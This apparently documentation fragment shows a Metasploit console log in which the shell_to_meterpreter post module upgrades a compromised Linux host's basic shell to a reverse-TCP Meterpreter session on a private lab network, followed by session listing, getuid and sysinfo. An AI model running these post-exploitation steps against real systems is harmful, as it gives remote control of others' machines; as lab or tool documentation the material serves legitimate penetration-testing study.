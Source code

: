   ```
  LPORT => 8080
  msf post(shell_to_meterpreter) > exploit

  [*] Upgrading session ID: 1
  [*] Starting exploit/multi/handler
  [*] Started reverse TCP handler on 10.10.10.4:8080 
  [*] Sending stage (847604 bytes) to 10.10.10.2
  [*] Meterpreter session 2 opened (10.10.10.4:8080 -> 10.10.10.2:60448) at 2017-11-10 15:54:38 -0500
  [*] Command stager progress: 100.00% (736/736 bytes)
  [*] Post module execution completed
  msf post(shell_to_meterpreter) > sessions -l

  Active sessions
  ===============

    Id  Name  Type                   Information                                            Connection
    --  ----  ----                   -----------                                            ----------
    1         shell cmd/unix                                                                10.10.10.4:4444 -> 10.10.10.2:57888 (10.10.10.2)
    2         meterpreter x86/linux  uid=1000, gid=1000, euid=1000, egid=1000 @ 10.10.10.2  10.10.10.4:8080 -> 10.10.10.2:60448 (10.10.10.2)
  msf post(shell_to_meterpreter) > sessions -i 2
  [*] Starting interaction with 2...

  meterpreter > getuid
  Server username: uid=1000, gid=1000, euid=1000, egid=1000
  meterpreter > sysinfo
  Computer     : 10.10.10.2
  OS           : Ubuntu 16.04 (Linux 4.10.0-35-generic)
  Architecture : x64
  Meterpreter  : x86/linux
  ```
